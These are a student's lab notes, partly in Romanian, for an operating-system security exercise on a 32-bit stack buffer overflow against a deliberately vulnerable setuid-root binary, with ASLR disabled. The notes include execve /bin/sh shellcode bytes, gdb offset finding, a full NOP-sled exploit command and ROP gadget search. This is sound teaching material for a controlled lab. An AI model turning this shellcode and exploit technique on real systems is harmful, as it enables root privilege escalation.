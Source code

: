 # Lab 7 Operating System Security

## Setup
```bash
sudo apt install libc6-dev-i386 gcc-multilib
gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack

sudo chown root:root vuln
sudo chmod 555 vuln
sudo chmod u+s vuln

$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Task 1
Disassemble using objdump in order to analyze the program.
```bash
objdump -d -M intel vuln
./vuln $(python3 -c 'print (116 * "A")')
```

## Task 2

Install nasm and compile shellcode using it:

```bash
sudo apt install nasm
nasm -f bin -o shellcode.o shellcode.S
```

Verify with objdump that we got the right payload.

```bash
objdump -b binary -m i386 -M intel -D shellcode.o
```

Extracting the bytes gives us the shellcode
``
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
``

## Task 3

```bash
gdb -q vuln
(gdb) b func
(gdb) run $(python3 -c 'print ("A"*116)')
(gdb) print $ebp
(gdb) print $ebp - 0x6c
```

## Task 4 & 5

Final payload structure:

``
[40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xffffce20]
``

## Task 6
adresa nu e aceeasi cu cea din gdb din cauza partii cu ENV + ARGS

merge daca adaug +80 (depinde la fiecare) la adresa din gdb sau daca printezi din vuln.c direct adresa lui `buf`
```bash
./vuln $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*40 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + b"A"*47 + b"\x2c\xcb\xff\xff")')
```

## Task 8
Se completeaza scriptul de python

## Task 9

```bash
 gcc rop.c -o vuln32 -fno-stack-protector -m32 -g -no-pie
 sudo -H python3 -m pip install ROPgadget
 ROPgadget --binary vuln32 | grep pop
```

In scriptul de python:
1. se ia adresa unui ROPgadget din outputul comenzii anterioare
2. se completeaza arg1 si arg2 din codul de c
3. se completeaza al doilea chain ca in lab
4. se ruleaza cu python
